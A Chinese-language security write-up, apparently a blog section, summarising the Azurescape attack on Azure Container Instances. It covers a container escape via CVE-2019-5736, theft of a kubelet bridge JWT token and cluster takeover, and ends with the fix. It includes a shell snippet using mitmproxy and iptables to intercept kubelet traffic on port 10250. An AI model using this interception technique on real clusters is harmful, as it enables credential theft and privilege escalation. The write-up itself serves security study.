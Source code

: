 ## 1.9 Azurescape 总结

1. 利用[CVE-2019-5736](https://tari.moe/p/2023/CVE-2019-5736.html)的漏洞部署一个恶意镜像到ACI。该镜像实现了在 k8s Node节点 RCE，当通过 `exec` 等方式在改镜像执行命令后，即可触发在容器宿主机执行恶意命令，此时逃逸至Node节点宿主机。
2. 在K8S Node节点上监听Kubelet端口流量（10250端口），等待包含JWT token 的请求（这个特性应该是旧的实现遗留下来的，服务上线时没有评估有没有用，就保留了）。
3. 在受控容器上运行命令执行 `az container exec` 命令。bridge pod 随后会向受控节点的 Kubelet 发送HTTP请求。
4. 从HTTP请求头中获取 bridge token（cluster role token），并进入 apiserver pod 中获取集群最高权限。

链接为视频演示
https://youtu.be/YfZBwKP18CQ 

学到一个挺实用的技巧，就是怎么抓取 apiserver 请求 node kubelet 的包
```shell
apt update > /dev/null 2>&1 && apt install -y mitmproxy > /dev/null 2>&1

# -d -d 输出详细
mitmproxy -d -d --reverse https://localhost:10025 -p 1234 >> /root/kubelet_comms &

# 把外部请求的10250端口流量转发到 1234端口
iptables -A INPUT -i eth0 -p tcp --dport 10250 -j ACCEPT
iptables -A INPUT -i eth0 -p tcp --dport 1234 -j ACCEPT
iptables -A PREROUTING -t nat -i eth0 -p tcp --dport 10250 -j REDIRECT --to-port 1234
```

## 1.10 修复方式
在执行 exec 时，去除bridgePod请求节点时携带的JWT token

----

本文发布已获得"云原生安全资讯"项目授权, 同步发布于以下平台

* github: [https://github.com/cloud-native-security-news/cloud-native-security-news](https://github.com/cloud-native-security-news/cloud-native-security-news)
* 公众号: 听雨安全

欢迎加入 "云原生安全资讯"项目 👏 阅读、学习和总结云原生安全相关资讯
